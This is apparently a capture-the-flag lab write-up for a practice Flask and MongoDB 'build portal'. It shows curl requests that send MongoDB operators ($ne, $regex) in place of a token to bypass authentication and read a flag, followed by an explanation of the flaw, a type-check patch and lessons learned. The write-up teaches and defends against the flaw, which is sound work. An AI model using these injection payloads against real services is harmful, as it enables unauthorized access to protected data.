





# Service 9 — Blockstar Build Portal

| | |
|---|---|
| **Service** | Service 9 — Blockstar Games Internal Build Portal |
| **Category** | Web / NoSQL Injection |
| **Difficulty** | Easy |
| **Port** | `8009` |
| **Target** | `<target-ip>:8009` |
| **Database** | MongoDB |
| **Author** | `<your-name>` |

---

## Synopsis

Blockstar's internal build-distribution portal looks up builds with the
client-supplied `dev_token` passed directly into a MongoDB query filter.
Because Flask turns a JSON object into a Python `dict` with no type
check, a MongoDB query operator (`$ne`, `$regex`, …) can be submitted in
place of a real token, bypassing the authentication check entirely and
leaking the flag for the restricted entry.

---

## 1. Enumeration

Start by requesting the public catalog to see what the service exposes.

```bash
curl -s http://<target>:8009/api/builds | jq
```


Four titles return full details. One entry is `classified` and has no
visible name — note its `game_id` (e.g. `gta7`). This is the target.



---

## 2. Foothold / Exploitation

**Step 1 — Confirm the obvious approach fails.**

```bash
curl -s -X POST http://<target>:8009/api/download_build \
  -H "Content-Type: application/json" \
  -d '{"game_id": "gta7", "dev_token": "guess-a-token"}'
```

```
{"status":"error","message":"No build found for that game ID / dev token combination."}
```



A real token is a random 64-character hex string, so guessing or
brute-forcing it is not practical.

**Step 2 — Send a MongoDB operator instead of a string.**

```bash
curl -s -X POST http://<target>:8009/api/download_build \
  -H "Content-Type: application/json" \
  -d '{"game_id": "gta7", "dev_token": {"$ne": ""}}'
```

**Result:**

```json
{
  "status": "success",
  "message": "Build access granted.",
  "game": "Grand Theft Aunty VII",
  "build": "UNRELEASED / INTERNAL-ONLY",
  "download_url": "https://cdn.blockstar-internal.local/builds/gta7/package.zip?sig=...",
  "flag": "HS{blockstar_nosql_unreleased_asset_leaked}"
}
```



**Step 2b — Equivalent payload**, useful if `$ne` is specifically
blocked:

```bash
curl -s -X POST http://<target>:8009/api/download_build \
  -H "Content-Type: application/json" \
  -d '{"game_id": "gta7", "dev_token": {"$regex": "^.*"}}'
```



---

## 3. Why the Service Is Exploitable

When Flask parses a JSON request body with `request.get_json()`, each
field becomes whatever Python type the JSON represented: a quoted
string becomes a `str`, but a `{ ... }` becomes a `dict`. Nothing in a
normal Flask route stops a client from sending an object where a
string was expected.

The vulnerable line:

```python
record = builds.find_one({"game_id": game_id, "dev_token": dev_token})
```

passes `dev_token` into the MongoDB query filter exactly as received —
string or not. MongoDB's query language treats a dict with a
`$`-prefixed key as an **operator**, not a value to compare against:

- `{"$ne": ""}` → "not equal to the empty string" — true for every
  real document.
- `{"$regex": "^.*"}` → "matches this pattern" — also true for
  everything.

So instead of comparing `dev_token` for equality against the stored
value, the attacker gets MongoDB to answer a different question
entirely ("does *any* token exist here?") — the real 64-character
secret is never known, guessed, or brute-forced.

This is the NoSQL sibling of classic SQL injection: **untrusted input
reaching a query engine without being constrained to the shape the
developer assumed it would always have.**

---

## 4. Remediation / Patch

**File:** `app.py`
**Function:** `download_build()` (`POST /api/download_build`)

Add a type check immediately after confirming both fields are present,
and before the database call:

```python
if game_id is None or dev_token is None:
    return jsonify({
        "status": "error",
        "message": "Both 'game_id' and 'dev_token' are required.",
    }), 400

# ADD THIS — reject anything that isn't a plain string before it
# ever reaches the MongoDB query filter.
if not isinstance(game_id, str) or not isinstance(dev_token, str):
    return jsonify({
        "status": "error",
        "message": "'game_id' and 'dev_token' must be strings.",
    }), 400

record = builds.find_one({"game_id": game_id, "dev_token": dev_token})
```

This rejects any JSON object, array, number, or boolean sent in either
field — including `{"$ne": ""}` and `{"$regex": "..."}` — before
PyMongo ever sees them, while leaving genuine string lookups
untouched.

**Verify the patch:**

1. Re-run Step 2/2b above → should now return
   `400 'game_id' and 'dev_token' must be strings.`


2. Confirm legitimate flows still work — a real token for a
   non-classified build (e.g. `bar1`) should still return `200` with a
   `download_url`.

---

## 5. Lessons Learned

- **Validate the *type*, not just the presence, of user input.**
  Checking a field exists (`is not None`) is not the same as checking
  it's the type your code assumes — a missing `dev_token` and a
  `dev_token: {}` both "pass" an existence check but behave very
  differently downstream.
- **Any query language — SQL, NoSQL, LDAP, shell — is dangerous once
  untrusted data reaches it unconstrained.** NoSQL databases aren't
  immune to injection just because they don't use SQL syntax;
  MongoDB's operator-as-dict design makes a JSON API inherently
  injection-prone unless input types are enforced.
- **"It's just JSON" is not a safety guarantee.** JSON's flexibility
  (strings, numbers, objects, arrays all valid in the same field) is
  exactly what makes this attack possible.
- **Fix at the boundary, not deep in the logic.** The patch doesn't
  touch MongoDB, the query, or any business logic — it rejects
  malformed input the moment it enters the system, which is both the
  simplest and most robust place to enforce an invariant.